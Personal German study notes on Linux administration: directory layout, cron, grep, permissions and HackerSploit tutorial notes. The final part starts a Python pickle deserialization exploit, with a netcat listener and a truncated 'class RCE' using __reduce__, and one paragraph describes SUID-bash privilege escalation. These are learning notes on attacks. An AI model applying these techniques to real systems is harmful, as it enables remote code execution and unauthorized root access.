


# Linux
Angelegt Dienstag 11 Januar 2022

TODO [./Linux.txt](./Linux_files/Linux/Linux.txt), [./LinuxBefehle.txt,](./Linux_files/Linux/LinuxBefehle.txt,) [~/Universität/Informatik/Linux-Kurs](file:///home/philipp/Universit%C3%A4t/Informatik/Linux-Kurs)

* [Tipps und Tricks – UbuntuUsers](https://wiki.ubuntuusers.de/Shell/Tipps_und_Tricks/)
* [Bash-Skripting – UbuntuUsers](https://wiki.ubuntuusers.de/Shell/Bash-Skripting-Guide_für_Anfänger/#Programmfuehrung)
* [Home umziehen – UbuntuUsers](https://wiki.ubuntuusers.de/Home_umziehen/)


Logs
----
Logs finden sich unter [/var/log/](file:///var/log).
Bspw. die von [cron – MeinWIki](#Linux:cron) unter [/var/log/syslog](file:///var/log/syslog) (filtern mit ``grep CRON``) und die von [pm-utils – MeinWiki](#Einrichtung meines PCs:Veraltet:pm-utils) unter [/var/log/pm-powersave.log](file:///var/log/pm-powersave.log).

Diverses
--------

* **Inhalt von Dateien leeren** (am Beispiel ``test.sh``):

	cat /dev/null > test.sh


* mit [shred – UbuntuUsers](https://wiki.ubuntuusers.de/shred/) Dateien in Verzeichnissen löschen:

	find <Verzeichnis> -type f -print0 | xargs -0 shred -fuz 


* ``whoami  ``Zeigt an als welcher Nutzer man eingeloggt ist
* ``hostname  ``Name des Rechners bzw. Ausgabe der Datei [/etc/hostname](file:///etc/hostname)
* ``id  ``Zeigt alle möglichen Ids an
* ``file <file>  ``Zeigt Informationen an, wie der Dateiinhalte aufgebaut ist, also ob es bspw. Daten, Text oder PDF ist


* ``<Befehl_1> | xargs <Befehl_2>  ``Nur im Zusammenspiel mit Pipes sinnvoll zu verwenden. Verwendet die Ausgabe von ``Befehl_1`` als Argumente für ``Befehl_2``

``find . -type f | xargs file``
Schaut, welche Daten sich in den Dateien im aktuellen Verzeichnis befinden

* In [/etc/shells](file:///etc/shells) stehen alle Shells, die man verwenden kann. Mit Eingabe deren Namen kann man sie einfach aufrufen.

Die Standard-Shell steht in der [/etc/passwd](file:///etc/passwd)
Diese können mit ``chsh`` geändert werden

* Per ``!!`` kann man auf den letzten Shell-Befehl zugreifen:


Textverarbeitung
----------------

* Textdatei **spaltenweise** extrahieren <https://wiki.ubuntuusers.de/cut/>


Verzeichnisstruktur
-------------------
[Verzeichnisstruktur – UbuntuUsers](https://wiki.ubuntuusers.de/Verzeichnisstruktur/)
``$ man hier``

* Alle Veränderungen unter ``/`` sind nur mit ``root``-Rechten möglich
* ``/``
	* Erste Verzeichnisebene
* ``/bin  ``von ``bin``aries (Programme)
	* Link auf ``/usr/bin``
	* unverzichtbare Programme
	* dürfen im vergleich zu ``/sbin`` von allen Nutzern ausgeführt werden
* ``/boot``
	* zum booten benötigte Dateien, bspw. den Kernel
* ``/dev  ``(von ``dev``ices)
	* Gerätedateien, über die Hardware im Betrieb angesprochen wird
* ``/etc  ``(von ``et`` ``c``etera)
	* Konfigurations- und Informationsdateien wie [fstab](https://wiki.ubuntuusers.de/fstab/), [hosts](https://wiki.ubuntuusers.de/hosts/) & [blkid.tab](https://wiki.ubuntuusers.de/blkid/)
	* Hier liegende Konfigurationsdateien können auch durch solche im Home-Verzeichnis überlagert werden, zB [bash.bashrc – UbuntuUsers](https://wiki.ubuntuusers.de/Bash/bashrc/)
	* ``/etc/default  ``u.a. Konfigurationsdatei für [grub – UbuntuUsers](https://wiki.ubuntuusers.de/GRUB_2/Konfiguration/)
	* ``/etc/opt  ``Verzeichnisse und Konfigurationsdateien für Programme in ``/opt``
	* ``/etc/init.d  ``Start- und Stopskripte
		* ``/etc/rc[0-6].d`` directories. [Runlevel – Wikipedia](http://en.wikipedia.org/wiki/Runlevel) ``0`` corresponds to shutdown, and ``6`` to reboot.
* ``/home  ``(von ``home``-directory; [Home-Verzeichnis – UbuntuUsers](https://wiki.ubuntuusers.de/Homeverzeichnis/))
	* pro Nutzer ein Unterverzeichnis
* ``/lib  ``(von ``lib``aries)
	* unverzichtbare Bibliotheken für Boot-Prozess
	* ``/lib/modules  ``[Kernelmodule – UbuntuUsers](https://wiki.ubuntuusers.de/Kernelmodule/)
	* ``/lib/udev  ``für [udev – UbuntuUsers](https://wiki.ubuntuusers.de/udev/)
* ``/media  ``
	* Unterverzeichnisse, welche als [mount – UbuntuUsers](https://wiki.ubuntuusers.de/mount/)- oder Einhängepunkte transportabler Medien (bspw. USB-Speichermedien und anderer Datenträger) dienen.
	* Unterverzeichnisse von Partitionen erscheinen auch hier
	* Link auf Schreibtisch wird erstellt
* ``/mnt  ``(von ``m``ou``nt``)
	* normalerweise leer, kann für temporär eingehängte Partitionen verwendet werden
	* kein Link auf Schreibtisch wird erstellt (vgl. ``/media``)
* ``/opt  ``(von ``opt``ional, [/opt – UbuntuUsers](https://wiki.ubuntuusers.de/opt/))
	* für manuelle Installation von Programmen gedacht, die eigene Bibliotheken mitbringen
* ``/proc  ``(von ``proc``esses)
	* Schnittstellen zum geladenen Kernel und seinen Prozeduren
	* ``/proc/<Nummer>  ``Jedes Programm mit Prozessnummer als Verzeichnisnamen, darin Datei ``status``, die Auskunft über Prozess liefert (Programmname, Nummer, Speichernutzung, ...)
* ``/root``
	* [Home-Verzeichnis – UbuntuUsers](https://wiki.ubuntuusers.de/Homeverzeichnis/) des [Superusers – UbuntuUsers](https://wiki.ubuntuusers.de/sudo/) (root). Muss immer erreichbar sein, deswegen nicht unter ``/home``
* ``/run``
* ``/sbin  ``(von ``s``ytem ``bin``aries; Systemprogramme)
	* Link auf ``/usr/sbin``
	* Programme für essentielle Aufgaben des Systems
	* Nur mit ``root``-Rechten ausführbar
* ``/srv  ``(von ``s``e``rv``ices; [Dienste – UbuntuUsers](https://wiki.ubuntuusers.de/Dienste/)
	* in der Regel unter Ubuntu leer
* ``/sys  ``(von ``sys``tem)
	* Besteht ebenso wie ``/proc`` hauptsächlich aus Kernel-Schnittstellen
* ``/tmp  ``(von ``t``e``mp``orary)
	* enthält temporäre Dateien von Programmen; wird beim Booten geleert
* ``/usr  ``(von ``us``e``r``; Name historisch bedingt)
	* Systemtools, Bibliotheken und installierte Programme
	* ``/usr/bin  ``Anwenderprogramme, Desktopumgebungen und dazugehörige Programme aber auch über Paketverwaltung installierte Programme aber **nicht** die manuell Installierten (s. ``/opt``)
	* ``/usr/include  ``Header-Dateien für C-Programme
	* ``/usr/lib  ``Bibliotheken
	* ``/usr/local``
		* selbe Struktur wie ``/usr``
		* gedacht für Programme, die man an Paketverwaltung vorbei installiert, bspw. [selbst kompilierte Programme – UbuntuUsers](https://wiki.ubuntuusers.de/Programme_kompilieren/)
	* ``/usr/sbin  ``für Linux nicht unbedingt notwendige Programme
	* ``/usr/share  ``im Gegensatz zu ``/var`` für statische, sich nicht ändernde Dateien
		* ``/usr/share/applications  ``[Programmstarter – UbuntuUsers](https://wiki.ubuntuusers.de/Programmstarter/), die für Anwendungsmenüs genutzt werden
		* ``/usr/share/man  ``[Manpages – UbuntuUsers](https://wiki.ubuntuusers.de/man/)
* ``/var  ``(von ``var``iable)
	* nur Verzeichnisse; Dateien in diesen werden von Programmen je nach Bedarf geändert, Bsp: Log-Dateien & Spielstände
	* ``/var/log  ``Log-Dateien der Systemprogramme wie ``Xorg.0.log`` (Xserver-Log), ``kern.log`` (Kernel-Log), ``dmesg`` (letzte Kernelmeldungen), ``messages`` (Systemmeldungen); s. [Logdateien – UbuntuUsers](https://wiki.ubuntuusers.de/Logdateien/)
	* ``/var/run  ``Speichern Zustand des Gesamtsystems; wird bei jedem Booten gelöscht und neu geschrieben
	* ``/var/tmp  ``Dateien, die bei einem Reboot nicht verloren gehen sollten


# cron
Angelegt Freitag 18 März 2022


* [cron – UbuntuUsers](https://wiki.ubuntuusers.de/Cron/)
* [crontab-Generator – crontab-generator.org (TryHackMe)](https://crontab-generator.org/)
* [crontab-Guru – crontab.guru (TryHackMe)](https://crontab.guru/)


Verwendung
----------
	[sudo] crontab -e

``[sudo]`` für die ``crontab`` von ``sudo``.

GUI
---

* Für die Verwendung eines GUI (bspw. ``zenity``) muss man der ``cron``-Zeile ein

	export DISPLAY=:0

voranstellen:
``*/2 * * * * export DISPLAY=:0 && <BEFEHEL`` (bspw. Pfad zu Skript)``>``

* Für die Verwendung von Benachrichtigungen

	zenity --notification --text="Benachrichtigung"
	notify-send "Benachrichtigung"

muss man
	export DISPLAY=:0
	export DBUS_SESSION_BUS_ADDRESS=unix:path=/run/user/1000/bus

dem Skript voranstellen und kann dann auf die explizite Angabe von
	export DISPLAY=:0

in der ``crontab`` verzichten.

Logs
----
Logs der ``crontab`` finden sich in [/var/log/syslog](file:///var/log/syslog). Filtern per [grep – MeinWiki](#Linux:grep): ``grep CRON /var/log/syslog``.

# curl

# Deskriptoren
Angelegt Montag 31 Oktober 2022

[File descriptor − Wikipedia [en]](https://en.wikipedia.org/wiki/File_descriptor)

* Ausführliche Erläuterungen: [what-does-2>=&1-mean − stackoverflow](https://stackoverflow.com/questions/818255/what-does-21-mean)


* Es gibt immer mindestens 3 Deskriptoren:
	* [id: stdin]``0`` = ``stdin`` ([stdin − Wikipedia [en]](https://en.wikipedia.org/wiki/Stdin))
	* [id: stdout]``1`` = ``stdout`` ([stdout − Wikipedia [en]](https://en.wikipedia.org/wiki/Stdout))
	* [id: stderr]``2`` = ``stderr`` ([stderr − Wikipedia [en]](https://en.wikipedia.org/wiki/Stderr))


Operationen mit Deskriptoren
----------------------------
``>&`` leitet Datenströme um, bspw.
``>`` ist ein Alias für ``1>``
	echo "Test" 1>&2 # stdout nach stderr
	echo "Test" 2>&1 # stderr nach stdout

In der Praxis bedeutet das (Datei ``A`` existiert **nicht**):

* Fehlermeldungen werden nicht weitergeleitet, weil der falsche Strom spezifiziert wurde

	cat A.txt > B.txt
	# cat: A.txt: Datei oder Verzeichnis nicht gefunden
	cat B.txt # keine Ausgabe, B.txt ist leer

Möchte man die Fehlermeldung speicher, benötigt man:
	cat A.txt 2> B.txt # keine Ausgabe
	cat B.txt
	# cat: A.txt: Datei oder Verzeichnis nicht gefunden


* Eine Umleitung auf ``stdin`` ist dann notwendig, wenn die Ausgabe (von ``stderr``) als Eingabe für ein anderes Programm dienen soll:


# grep
Angelegt Mittwoch 16 Februar 2022


* Es können mehrere Dateien zum Durchsuchen auf einmal angegeben werden


``-n  ``Gibt Zeilennummer mit aus
``-A <num>  ``Gibt die folgenden ``<num>`` Zeilen nach einem Treffer aus
``-B <NUM>`` Gibt die vorhergehenden ``<NUM>`` Zeilen eines Treffers aus
``-C <NUM>`` Kombiniert ``-A`` und ``-B``, dh. Zeilen davor und danach
``-H  ``Ausgabe Dateiname/n
``-i  ``Groß-/Kleinschreibung wird ignoriert
``-m <num>``,`` --max-count=<num>`` Gibt die ersten ``<num>`` Treffer aus 
``-r  ``Alle Dateien in einem Verzeichnis rekursiv durchsuchen
Äquivalent: ``-d recurse``, bzw. ``--directories=recurse``
``-d <ACTION>, --directories=<ACTION>  ``Aktion, die für Verzeichnisse ausgeführt werden soll
``<ACTION>  ``read, skip, recurse
``-E``, ``--extended-regexp`` *Erweiterte reguläre Ausdrücke* können verwendet werden, s. [:Linux:**sed**](#Linux:sed)
``-P``, ``--perl-regexp`` Verwendung von ``PERL``*-reguläre Ausdrücke*, dazu gehört bspw. ``\d`` für ``[0-9] == [[:digit:]]`` 


regex
-----
@regex

19. auch [regex – MeinWiki.Python](#Python:Diverses:regex)


* ``|  ``oder-Verknüpfung für reguläre Ausdrücke (s. Beispiele)
* ``\w  ``Irgendein „Wort“-Character TODO nachschauen, welche genau
* ``\s  ``ein Leerzeichen


### Beispiele
	 egrep "[aei]r$|se$" Spanisch.\ Vokabeln.csv
 
findet alle Wörter, die auf „ar“, „er“, „ir“ (``[aei]r``) enden (``$`` am Schluss) oder die auf „se“ enden, in Datei „Spanisch. Vokabeln.csv“ (de facto fast alle spanischen Verben in einer CSV-Datei)
OPTIONAL Datei verlinken.

	 egrep "([aei]r|se)($|\s)" Spanisch.\ Vokabeln.csv 
Etwas allgemeiner aber findet auch Formulierungen wie „einer“ oder „über“, also alles, was auf „er + <Leerzeichen> endet“. Notwendig, da obige Formulierung nicht „enfardarse con alguien“ trifft.


# HackerSploit – Linux Essentials For Hackers
Angelegt Freitag 25 Februar 2022
@linux @hacking

[HackerSploit: Linux Essentials For Hackers – YouTube-Playlist](https://www.youtube.com/playlist?list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by)

Tastenkombinationen für das Terminal
------------------------------------
<https://www.youtube.com/watch?v=44H-D1t2OCw&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=2>

* ``STRG + L  ``löscht Terminal (gleichbedeutend zur Eingabe ``clear``)
* ``STRG + A  ``Cursor an Zeilenanfang
* ``STRG + E  ``Cursor an Zeilenende
* ``STRG + U  ``löschen vom Anfang bis zum Cursor
* ``STRG + K  ``löschen vom Cursor bis zum Ende
* ``STRG + Z  ``unterbrechen (suspend) laufenden Prozess
* ``STRG + SHIFT + N  ``Neues Terminal an selber Stelle


Datei-Management & Manipulation
-------------------------------
<https://www.youtube.com/watch?v=oGj5JBBQLHs&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=3>

* ``ls -lh  h`` = ``h``uman readable; Zeigt Dateigrößen nicht in Bytes sondern Kilo-, Mega-, Giga-, ... Bytes an
* ``ls -lR  R`` = ``R``ecursively; Zeigt auch Inhalte der Unterordner


Datei- & Verzeichnis-Rechte
---------------------------
<https://www.youtube.com/watch?v=qIVR1OaIUpA&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=4>
``-rw-rw-r--  1 philipp philipp  96896 Feb 25 14:36  test.sh``
``permissions   owner   group``
Die ``permissions`` gliedern sich in drei dreier Gruppen:

* ``rw-  permissions`` des Owners
* ``rw-  permissions`` der Gruppe
* ``r--  permissions`` für alle anderen Nutzer

Wenn ich nicht als ``owner`` eingeloggt bin und zu einer Datei einer anderen Person navigiere (bspw. indem ich in sein Home-Verzeichnis wechsle, dann gelten für mich die letzten drei Permissions: ``r--``.


### Ändern der Permissions
Zum Ändern der Permission: ``chmod [a|g|o|u] ((+|-) | =) [r|w|x] <file>``
Zum rekursiven Ändern (Verzeichnis und alles, was es beinhaltet): ``-R``

#### Rechte hinzufügen
	chmod +x test.sh

``-rw-rw-r--`` ⇒ ``-rwxrwxr-x  ``**Alle** Nutzer können nun ausführen
	chmod u+x test.sh

``-rw-rw-r--`` ⇒  ``-rwxrw-r--  ``Nur gegenwärtiger Nutzer (``u``ser) (wenn er auch Owner ist?) kann ausführen
oder:
	chmod u=rwx test.sh

Gleich alles auf einmal spezifizieren
Statt ``u`` kann auch ``g``roup, ``a``ll oder ``o``ther bzw. mehrere aufeinmal ``chmod ua=rw test.sh`` verwendet werden.

#### Rechte entfernen
	chmod go-wx test.sh
	

#### Unterschied zwischen ``+``, ``-`` und ``=``

* ``=`` überschreibt gegenwärtige Rechte mit Neuen
* ``+``,``−`` Entfernen/Hinzufügen von Rechten auf Grundlage der gegenwärtigen Rechte


#### Rechte per Zahlen setzen („Octal-Mode“)

* ``r = 4``
* ``w = 2``
* ``x = 1``


	chmod 444 test.sh

Setzt für Owner, Group und Andere die ``r``-Erlaubnis

Möchte man mehrere Rechte auf einmal setzen, so **addiert** man die Werte einfach
	chmod 731 test.sh

setzt für
Owner ``r``,``w``, ``x``
Group ``w``, ``x``
Other ``x``

#### Sonderrechte
``s``/``S`` Datei läuft **immer** mit Rechten des Besitzers/der Gruppe (``SUID``/``SGID``-Bit); Kann für Privilege Escalation verwendet werden, indem man ein ``bash``-Executable mit ``SUID``/``SGID``-Bit hochlädt (bspw. per ``FTP`` oder ``NFS`` ([:Linux:TryHackMe:**Netzwerk-Dienste**](#Linux:TryHackMe:Netzwerk-Dienste))) und an anderer Stelle, bspw. nach einem [:Linux:**ssh**](#Linux:ssh)-Login ausführt.
Mehr dazu unter [:Linux:TryHackMe:**SUID**](#Linux:TryHackMe:SUID)


Datei- & Verzeichnis-Ownership
------------------------------
<https://www.youtube.com/watch?v=uK3HnkrhCW8&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=5>
``-rw-rw-r--  1 philipp philipp  96896 Feb 25 14:36  test.sh``
``permissions   owner   group``
Zum Ändern von ``owner``: ``chown <new owner> <file>``
Zum Ändern von ``group``: ``chgrp <new group> <file>``

grep & piping
-------------
<https://www.youtube.com/watch?v=U9SI-wYRD1M&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=6>

19. [Linux.grep](#Linux:grep)


locate-Befehl
-------------
<https://www.youtube.com/watch?v=C6E0kl1U0Vc&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=7>
``locate <file>``

* am besten mit [Linux.grep](#Linux:grep) nutzen


Enumerating Distribution & Kernel Information
---------------------------------------------
<https://www.youtube.com/watch?v=OIxu1TiXArQ&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=8>

* Rudimentäre Informationen über Betriebssystem-Version

``lsb_release -a``

oder
``cat /etc/issue``
``cat /etc/os-release``
``cat /etc/*release``

* Informationen über CPU

``lscpu``

* Informationen über den Kernel

``uname  u``nix ``name``
``-a  ``alle/allgemeine Informationen
``-s  ``Kernel
``-r  ``Kernel-Version
``-p  ``Instruction Set (x86
``-o  o``perating system

Find + OverTheWire Bandit Challenge
-----------------------------------
<https://www.youtube.com/watch?v=egnq3LlBpgI&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=9>
``[sudo]`` ``find <dir> -type (f | d | l) -name <name>``

* ``-iname  ``ignoriere Groß- & Kleinschreibung (statt ``-name``)
* ``-size <n>(c | k | M | G)  ``Dateigröße angeben (``c`` steht dabei für Bytes)
	* ``+<n>  ``Dateien, die größer sind
	* ``-<n>  ``Dateien, die kleiner sind
* ``-perm <Octal-Notation>  ``Nur Dateien mit bestimmten ``perm``issions
* ``-user <user>  ``Dateien, die Nutzer ``<user>`` gehören (``-group <group>`` analog)
* ``-executable  ``Nur ausführbare Dateien
* ``! <Suchmuster>  ``Kehrt Suchmuster um, dh, alle Dateien, die ``<Suchmuster> ``nicht entsprechen

Mögliche Suchmuster: Alles, was drüber steht, also ``-name``, ``-size``, ``-perm``, ``-executable``, ...

* ``-regex <Regex>`` Verwendet ``<Regex>`` zur Suche (im Vergleich zu ``ll | egrep <Regex>`` wird hier wirklich nur der Dateiname ausgegeben)
* ``-delete`` Löscht gefundene Dateien
	* Sollte am Ende stehen
	* Ggfl. erst ohne ``-delete`` ausführen und gefundene Dateien kontrollieren


Disk Usage
----------
<https://www.youtube.com/watch?v=fUJBmIIsqxk&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=11>

### du [dir ..]

* ``du`` steht für „``d``isk ``u``sage“

``du`` Größe aller Dateien im aktuellen Verzeichnis
``du -sh *`` Alle Ordner im aktuellen Verzeichni	
``du -sh .[^.]*`` wie oben nur für versteckte Dateien

### Optionen
``-s  ``(``s``ummarize) Zeigt nicht alle Dateien sondern nur die Verzeichnisse an
``-h  ``(``h``uman readable)
``-c``,`` --total  ``Zeile am Ende mit Summe aller Dateigrößen

### df
Zeigt Speicherverbrauch in Relation zum gesamten verfügbaren Speicher

* ``-h  ``(``h``uman readable)


File Compression & Archiving With tar
-------------------------------------
<https://www.youtube.com/watch?v=7kNDYaurgXA&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=12>
``tar [options] -f <archive name> [file | dir | ...]``

* ``-c  ``Erstelle ein Archiv (``c``ompress)
* ``-f <file>  ``Archiv-Date bennen; **muss** letzte Option sein, da alles Darauffolgende als Dateiname interpretiert wird (``f``ile)
* ``-p  ``Archiviere auch die ``p``ermissions
* ``-v  ``Zeigt zusätzliche Informationen an (``v``erbose)
* ``-x  ``Entpackt Archiv (e``x``tract); **überschreibt ohne zu fragen** vorhandene Datei mit selbem Namen
* ``-z  ``Komprimiere Archiv mit ``gzip``; Benennung des Archivs mit ``.tar.gz``


### Beispiele:
	tar -cvf Music.tar ~/Music/

	tar -xvf Music.tar ~/Schreibtisch/Musik

	tar -czf Music.tar.gz ~/Music/


* (Unter)Verzeichnisse ausschließen:

	tar --exclude='masterarbeit/.git' -czf masterarbeit.tar.gz masterarbeit


Users And Groups & Permissions With Visudo
------------------------------------------
<https://www.youtube.com/watch?v=XvyVjAvZ41c&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=13>

### Nutzer hinzufügen
``useradd``

* ``-m  ``Home-Verzeichnis mit Namen wird angelegt
* ``-c <comment>  ``Kommentar angeben
* ``-s /bin/<shell>  ``Angabe einer Standard-Shell


### Nutzer löschen
``userdel``

### Passwort ändern
``passwd <user>``

* Muss va. bei neuen Nutzern hinzugefügt werden
* Möchte man Passwort für aktuellen Nutzer ändern, kann ``<user>`` auch weggelassen werden


### visudo-Befehl
Hier steht irgendetwas mit Gruppen, Rechten; nicht genau verstanden
``root    ALL=(ALL:ALL) ALL``

1. ``ALL``: Man kann aus allen Sitzungen (lokal, remote) heraus ``root``-User werden
2. ``ALL``: Egal als welcher Nutzer man eingeloggt ist, man kann ``root``-Nutzer werden
3. ``ALL``: Egal in welcher Gruppe man sich befindet, man kann ``root``-Nutzer werden
4. ``ALL``: ``root``-Nutzer kann alle Befehlt ausführen

Anstatt dem 4. ``ALL`` kann man auch ``/usr/bin/apt-get`` und weitere Befehle peer LEerzeichen getrennt angeben, dann sind nur die PRogramme in diesem Verzeichnis möglich


Networking (ifconfig, netstat & netdiscover)
--------------------------------------------
<https://www.youtube.com/watch?v=8tgEsVdy4a8&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=14>

In diesem Video habe ich nicht so viel verstanden, weil ich mich mit dem ganzen Internet-Zeug noch nicht so gut auskenne. Bei 16:30 erwähnt HackerSploit weiterführende Tutorials.

	ip route show

``default via ``^``192.168.178.1``^`` dev ``^``wlp0s20f3``^`` proto dhcp metric 600 ``
``169.254.0.0/16 dev wlp0s20f3 scope link metric 1000 ``
``192.168.178.0/24 dev wlp0s20f3 proto kernel scope link src ``**~^{``192.168.178.46``~}**`` metric 600``

* ``192.168.178.1  ``IP-Adresse vom Router; Gateway
* ``wlp0s20f3  ``Interface
* **``192.168.178.46  ``**IP-Adresse des Rechners

	> ip addr
	
	# Ist irgendwie für Localhost
	1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
	    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
	    inet 127.0.0.1/8 scope host lo
	       valid_lft forever preferred_lft forever
	    inet6 ::1/128 scope host 
	       valid_lft forever preferred_lft forever
	
	# Ethernet-Schnittstelle
	2: enp43s0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc fq_codel state DOWN group default qlen 1000
	    link/ether 7c:8a:e1:b3:d4:43 brd ff:ff:ff:ff:ff:ff
	
	# WLAN-Schnittstelle
	3: wlp0s20f3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
	    link/ether 1c:c1:0c:f3:27:c1 brd ff:ff:ff:ff:ff:ff
	    inet 192.168.178.46/24 brd 192.168.178.255 scope global dynamic noprefixroute wlp0s20f3
	    	#^^^^^^^^^^^^^^ IPv4-Adresse
	       valid_lft 853307sec preferred_lft 853307sec
	    inet6 2001:16b8:b980:4300:fb4c:a7e7:3189:d2f0/64 scope global temporary dynamic 
	       valid_lft 6894sec preferred_lft 3294sec
	    inet6 2001:16b8:b980:4300:c876:f888:9a92:df9c/64 scope global dynamic mngtmpaddr noprefixroute 
	       valid_lft 6894sec preferred_lft 3294sec
	    inet6 fe80::26dd:73a1:d8d2:786d/64 scope link noprefixroute
	    	# ^^^^^^^^^^^^^^^^^^^^^^^^^ IPv6-Adresse
	       valid_lft forever preferred_lft forever


TOR & Proxychains
-----------------
<https://www.youtube.com/watch?v=tX053IqrHT0&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=15>

Dieses Video habe ich nicht so gut verstanden, weil ich mich nicht so gut mit TOR und Proxys auskenne.


* Es gibt einen Unterschied zwischen dem tor-Service und dem tor-Browser. Ersteren installiert man per

``sudo apt-get install tor``

Service And Process Management (HTOP & systemctl)
-------------------------------------------------
<https://www.youtube.com/watch?v=BBp8iyE8Mus&list=PLBf0hzazHTGMh2fe2MFf3lCgk0rKmS2by&index=16>

Ein **Dienst** startet sich unter bestimmten Umständen neu, ein **Prozess** nicht.

### top

* Listet laufende Prozesse mit Id (``PID``), Nutzer, CPU- & Speicherverbrauch, etc. auf
* interaktive Version von ``top``: ``htop``, muss aber nachinstalliert werden


### Prozesse

* Unterschied zw. **Prozessen **und **Diensten** (s. oben)
* **Prozesse** können mit ``ps`` inspiziert werden
* Ohne Argumente werden nur die der gegenwärtigen Shell-Sitzung angezeigt

	$ ps
	    PID TTY          TIME CMD
	  14363 pts/0    00:00:00 bash
	  14502 pts/0    00:00:00 ps
	

* für alle: ``ps -e`` (oder ``ps axu``)
* ``sudo kill <PID>  ``Beendet Prozess mit PID ``<PID>``


### Dienste
@service @dienst @systemctl 

* Unterschied zw. **Prozessen **und **Diensten** (s. oben)
* ``systemctl  ``listet alle Dienste
* werden mit ``systemctl`` (``system c``on``t``ro``l`` gestartet) bzw. ``sudo systemctl start <service>``
* ``systemctl status <service>  ``Status eines Dienstes anzeigen
* ``systemctl is-enabled <service>  ``Abfrage, ob ``<service>`` beim Hochfahren gestartet wird
	* Um dies zu realisieren: ``systemctl enable <service>``
	* Beim Hochfahren nicht (mehr) starten: ``systemctl disable <service>``
* ``systemctl reload <service>  ``Konfiguration wird neu geladen
* ``systemctl restart <service>``
* ``systemctl stop <service>``


# IT-Sicherheit
Angelegt Montag 31 Oktober 2022

@itsicherheit

19. auch **[TryHackMe](#Linux:TryHackMe)**


# pickle (python)
Angelegt Montag 31 Oktober 2022


* s. auch [:Python:Diverses#objekte-speichern](#Python:Diverses)
* Mit [pickle − python-Doku](https://docs.python.org/3/library/pickle.html) kann man Objekte serialisieren und deserialisieren, um sie bspw. als Binärdatei zu speichern. Diese Methode ist **nicht** sicher und kann ausgenutzt werden
* [pickle.dumps(…) − python-Doku](https://docs.python.org/3/library/pickle.html#pickle.dumps) liefert Binärdaten, bspw. ``b-String``. [pickle.loads(…) − python-Doku](https://docs.python.org/3/library/pickle.html#pickle.loads) erwartet Binärdaten, bspw. ``b-String``
	* Die Binärdaten enthalten ``op-Codes``, die von ``pickle.loads(…)`` 1:1 ausgeführt werden. Können mit ``pickletools.dis(<pickle-BINÄRDATEN>)`` augeschlüsselt werden
	* [pickle.dump(…) − python-Doku](https://docs.python.org/3/library/pickle.html#pickle.dump) und [pickle.load(…) − python-Doku](https://docs.python.org/3/library/pickle.html#pickle.load) (beides ohne „s“) machen dasselbe nur mit Dateien


Exploit via ``__reduce__()``
----------------------------

* Exploit wird demonstriert auf: <https://checkoway.net/musings/pickle/>
* Implementiert man [``object.__reduce__()`` − python-Doku](https://docs.python.org/3/library/pickle.html#object.__reduce__) in einer Klasse, kann man beeinflussen, wie Instanzen dieser serialisert (und damit von [pickle − python-Doku](https://docs.python.org/3/library/pickle.html) verarbeitet werden) 
* Soll ``Tupel`` oder ``String`` zurückgeben
	* Wenn ``Tupel``: An erster Stelle ein *callable*-Objekt, an zweiter ein ``Tupel`` mit den Argumenten (wenn *Callable*) keine Argumente nimmt, ein Leeres
		* Es gibt weitere Möglichkeiten und Bedinugungen aber diese reichen für's Erste
	* Wenn ``String``: s. [``object.__reduce__()`` − python-Doku](https://docs.python.org/3/library/pickle.html#object.__reduce__)

❗️Hier kommt auch eine Schwachstelle ins Spiel: Man kann die ``__reduce__``-Funktion auch völlig anders gestalten. Das *Callable* muss Nichts mit der Klasse zu tun haben und kann bspw. ``os.system`` sein.

### Der Exploit

* Um den Exploit wirklich nutzen zu können, muss man zuvorderst einen [:Linux:**netcat & socat**](#Linux:netcat & socat)-Listener starten:

	nc -nvl 1234


* Unten stehender Beispielcode ignoriert die Zielseite. Dort findet sich lediglich eine [:Python:Module:**Flask**](#Python:Module:Flask)-Anwendung, die die Daten ``base64``-dekodiert und ``pickle.loads(…)`` aufruft.

	import pickle
	import base64 # Wird für das Versenden von (Binär-)Daten über ein Netzwerk verwendet
	import os
	
	
	class RCE:
	    def __reduce__(self):
